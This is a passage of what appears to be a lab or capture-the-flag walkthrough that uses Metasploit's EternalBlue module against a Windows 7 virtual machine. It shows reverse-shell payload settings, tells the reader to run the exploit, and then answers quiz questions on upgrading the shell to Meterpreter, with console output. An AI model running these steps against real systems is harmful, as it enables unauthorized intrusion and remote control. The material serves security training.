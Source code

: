 ```bash
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.37.128   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
   ```


- Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

- set payload `windows/x64/shell/reverse_tcp`
- With that done, run the exploit!
- Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.  


#### Task 3: Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

__Q__ If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)
__Ans__ `post/multi/manage/shell_to_meterpreter`

__Q: Select this (use MODULE_PATH). Show options, what option are we required to change?__  

__Ans: SESSION__
```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > search "shell_to_"

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
[*] Using configured payload windows/x64/shell/reverse_tcp
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
```